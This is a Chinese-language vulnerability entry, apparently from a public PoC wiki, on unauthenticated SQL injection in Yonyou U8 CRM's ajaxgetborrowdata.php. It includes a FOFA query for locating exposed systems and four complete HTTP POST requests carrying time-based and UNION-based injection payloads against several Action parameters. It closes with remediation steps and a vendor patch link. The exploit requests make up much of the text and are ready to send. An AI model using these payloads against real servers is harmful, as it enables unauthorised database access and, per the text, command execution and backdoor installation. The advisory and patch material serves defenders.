




# 用友U8 CRM ajaxgetborrowdata.php SQL注入漏洞

# 漏洞描述

用友 U8 CRM客户关系管理系统 /borrowout/ajaxgetborrowdata.php 文件多个方法存在SQL注入漏洞，未经身份验证的攻击者通过漏洞执行任意SQL语句，调用xp_cmdshell写入后门文件，执行任意代码，从而获取到服务器权限。

# 影响版本

V18, V16.5, V16.1, V16.0, V15.1, V13

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：title="用友U8CRM"

POC/EXP：1

POST /borrowout/ajaxgetborrowdata.php?DontCheckLogin=1&Action=getInvOtherInfo HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=bgsesstimeout-;
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Connection: close

cInvCode=1%27%3BWAITFOR+DELAY+%270%3A0%3A6%27--

POC/EXP：2

POST /borrowout/ajaxgetborrowdata.php?DontCheckLogin=1&Action=getWarehouseOtherInfo HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=bgsesstimeout-;
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Connection: close

cWhCode=1%27+UNION+ALL+SELECT+CHAR%28113%29%2BCHAR%28113%29%2BCHAR%28118%29%2BCHAR%28106%29%2BCHAR%28113%29%2BCHAR%2899%29%2BCHAR%28105%29%2BCHAR%28114%29%2BCHAR%2887%29%2BCHAR%28120%29%2BCHAR%2874%29%2BCHAR%2866%29%2BCHAR%28106%29%2BCHAR%2885%29%2BCHAR%2898%29%2BCHAR%2886%29%2BCHAR%2874%29%2BCHAR%2875%29%2BCHAR%2868%29%2BCHAR%28108%29%2BCHAR%2899%29%2BCHAR%28114%29%2BCHAR%2890%29%2BCHAR%2867%29%2BCHAR%2874%29%2BCHAR%28114%29%2BCHAR%2873%29%2BCHAR%2876%29%2BCHAR%2877%29%2BCHAR%28101%29%2BCHAR%2870%29%2BCHAR%28122%29%2BCHAR%2888%29%2BCHAR%2886%29%2BCHAR%28103%29%2BCHAR%2881%29%2BCHAR%2899%29%2BCHAR%28107%29%2BCHAR%2865%29%2BCHAR%2868%29%2BCHAR%2867%29%2BCHAR%2885%29%2BCHAR%2876%29%2BCHAR%2879%29%2BCHAR%28122%29%2BCHAR%28113%29%2BCHAR%28120%29%2BCHAR%28122%29%2BCHAR%2898%29%2BCHAR%28113%29--+KRVC

POC/EXP：3

POST /borrowout/ajaxgetborrowdata.php?DontCheckLogin=1&Action=getCusInfo HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=bgsesstimeout-;
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Connection: close

cus=1%27%3BWAITFOR+DELAY+%270%3A0%3A6%27--

POC/EXP：4

POST /borrowout/ajaxgetborrowdata.php?DontCheckLogin=1&Action=getCusPrice HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=bgsesstimeout-;
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Connection: close

i=-99%27%3BWAITFOR+DELAY+%270%3A0%3A3%27--

# 漏洞修复

第一步：在配置文件尾部追加如下段落即可

配置文件： U8SOFT\turbocrm70\apache\conf\httpd.conf，

在末尾添加一个配置：

<Directory "D:/U8SOFT/turbocrm70/code/www/background">

Require local

</Directory>

其中，需要将<Directory "D:/U8SOFT/turbocrm70/code/www/background">中的u8安装路径修改为正确的安装路径

第二步：U8CRM存在SQL注入漏洞的安全补丁241125.zip

将解压文件中的U8SOFT目录覆盖产品安装目录。

第三步：修改完之后重启Apache4TurboCRM70服务

另：

如果没有使用U8CRM模块功能，U8CRM功能仅因为产品安装时全选模块带入。需要禁用U8CRM服务。即在U8应用服务管理器中停止并禁用Apache4TurboCRM70, TurboCRM70和memcached Server。

U8从v16.5开始，CRM不再作为主安装盘的一部分，而是作为独立安装盘发布。在主安装盘选择全部模块不会安装CRM模块。如果没有从单独的安装盘安装U8CRM，不会受到本漏洞影响，无需进行任何处理。

补丁链接：https://security.yonyou.com/#/noticeInfo?id=649

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
